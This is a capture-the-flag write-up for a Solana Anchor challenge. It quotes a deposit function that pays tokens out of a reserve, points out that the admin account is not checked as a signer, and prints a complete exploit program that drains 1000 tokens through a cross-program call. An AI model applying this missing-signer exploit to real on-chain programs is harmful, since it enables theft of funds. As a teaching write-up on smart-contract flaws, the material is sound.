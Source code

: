 ## Baby-1
The challenge is written in anchor and it is straight forward,though quality challenge,we spent decent time and alot of failed exploits as well :p

## Goal
balance of user == 1000

## Challenge 
The src file has an `initialize` function which we can fairly ignore.
when we look at `Deposit()` we observe that it infacts functions as a withdraw function. The vulnerability for this challenge lies within the `Deposit()` function let's dive into it
```rust
 pub fn deposit(ctx: Context<Deposit>, amount: u64) -> Result<()> {
        let reserve_bump = [*ctx.bumps.get("reserve").unwrap()];
        let signer_seeds = [
            b"RESERVE",
            reserve_bump.as_ref()
        ];
        let signer = &[&signer_seeds[..]];

        let withdraw_ctx = CpiContext::new_with_signer(
            ctx.accounts.token_program.to_account_info(),
            Transfer {
                from: ctx.accounts.reserve.to_account_info(),
                to: ctx.accounts.user_account.to_account_info(),
                authority: ctx.accounts.reserve.to_account_info()
            },
            signer
        );
        token::transfer(withdraw_ctx, amount)?;
        Ok(())
    }
```

```rust
#[derive(Accounts)]
pub struct Deposit<'info> {
    #[account(
        mut,
        seeds = [ b"CONFIG" ],
        bump,
        has_one = admin
    )]
    pub config: Account<'info, Config>,

    #[account(
        mut,
        seeds = [ b"RESERVE" ],
        bump,
        constraint = reserve.mint == mint.key(),
    )]
    pub reserve: Account<'info, TokenAccount>,

    #[account(
        mut,
        seeds = [b"account", user.key().as_ref()],
        bump,
        constraint = user_account.mint == mint.key(),
        constraint = user_account.owner == user.key(),
    )]
    pub user_account: Account<'info, TokenAccount>,

    pub mint: Account<'info, Mint>,

    #[account(mut)]
    pub admin: AccountInfo<'info>,
    
    #[account(mut)]
    pub user:  Signer<'info>,
    pub token_program: Program<'info, Token>,
    pub system_program: Program<'info, System>,
    pub rent: Sysvar<'info, Rent>,
}
```

we observe that `admin` is set to `Account<'info>` while `user` is set to `Signer`
meaning we can simply sign the tx as admin and withdraw as much tokens as we like

## Exploitation
`anchor init exploit`

```rust
use anchor_lang::prelude::*;

use anchor_lang::prelude::*;
use chall; // Import the chall crate

declare_id!("2MQDi1GYGUWNcG9KaN32eU2ug2e3k5GiozwRbGHxEwub");

#[program]
pub mod exploit {
    use super::*;

    pub fn withdraw_1000(ctx: Context<Withdraw1000>) -> Result<()> {
        let cpi_accounts = chall::cpi::accounts::Deposit {
            config: ctx.accounts.config.to_account_info(),
            reserve: ctx.accounts.reserve.to_account_info(),
            user_account: ctx.accounts.user_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            admin: ctx.accounts.admin.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(ctx.accounts.chall.to_account_info(), cpi_accounts);
        chall::cpi::deposit(cpi_ctx, 1000)?; // Withdraw 1000 tokens
        Ok(())
    }
}

#[derive(Accounts)]
pub struct Withdraw1000<'info> {
    #[account(mut)]
    pub config: Account<'info, chall::Config>,
    #[account(mut)]
    pub reserve: Account<'info, anchor_spl::token::TokenAccount>,
    #[account(mut)]
    pub user_account: Account<'info, anchor_spl::token::TokenAccount>,
    pub mint: Account<'info, anchor_spl::token::Mint>,
    #[account(mut)]
    pub admin: AccountInfo<'info>,
    #[account(mut)]
    pub user: Signer<'info>,
    pub token_program: Program<'info, anchor_spl::token::Token>,
    pub system_program: Program<'info, System>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::Chall>,
}
```
after setting up our exploit with remote js client we get the flag `idek{b391dba7-4766-4191-9117-55a1202c86d8}`
